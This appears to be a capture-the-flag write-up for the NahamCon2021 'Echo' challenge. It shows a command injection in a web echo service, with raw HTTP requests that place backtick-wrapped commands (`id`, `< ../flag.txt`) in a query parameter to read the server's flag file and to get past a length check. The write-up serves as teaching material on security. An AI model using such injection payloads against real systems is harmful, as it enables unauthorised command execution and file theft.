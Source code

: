 ```yaml
---
title: "NahamCon2021 CTF - Echo"
date: 2021-03-15T10:10:07+02:00
categories:
- writeup
- ctf
- nahamcon
- nahamcon2021
- 2021
---
```


## category

warmups - easy

## solution

The challenge URL had a web based echo service.

{{< figure src="/images/nahamcon/echo.png" >}}

Many special characters, except for `<` and ` were filtered. It took me a while but I found the param had command injection. For example:

```text
GET /?echo=`id` HTTP/1.1
Host: challenge.nahamcon.com:30074
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://challenge.nahamcon.com:30074/?echo=food
Cookie: auth2=eyJpZCI6MX0.YEp7Wg.fHdsxIGEolHgYQD0d_cvExass8E; auth=eyJpZCI6MX0.YEp7Wg.fHdsxIGEolHgYQD0d_cvExass8E
Upgrade-Insecure-Requests: 1
```

Would respond with:

```html
<html>
    <title>
        $Echo
    </title>
    <h1>$Echo</h1>
    <body>
        <form method="get" name="index.php">
            <input type="text" name="echo" id="echo" size="80">
            <input type="submit" value="Echo">
        </form>
    <h3>
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    </h3>

[...]
```

If you tried to run `cat ../flag.txt`, the server would respond with `Man that's a mouthful to echo, what even?`. A length check was implemented, so to get a smaller command, use `< ../flag.txt`.

```text
GET /?echo=`<%20../flag.txt` HTTP/1.1
Host: challenge.nahamcon.com:30074
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://challenge.nahamcon.com:30074/?echo=food
Cookie: auth2=eyJpZCI6MX0.YEp7Wg.fHdsxIGEolHgYQD0d_cvExass8E; auth=eyJpZCI6MX0.YEp7Wg.fHdsxIGEolHgYQD0d_cvExass8E
Upgrade-Insecure-Requests: 1
```

The flag is then returned.

```html
<html>
    <title>
        $Echo
    </title>
    <h1>$Echo</h1>
    <body>
        <form method="get" name="index.php">
            <input type="text" name="echo" id="echo" size="80">
            <input type="submit" value="Echo">
        </form>
    <h3>
    flag{1beadaf44586ea4aba2ea9a00c5b6d91}
    </h3>

[...]
```
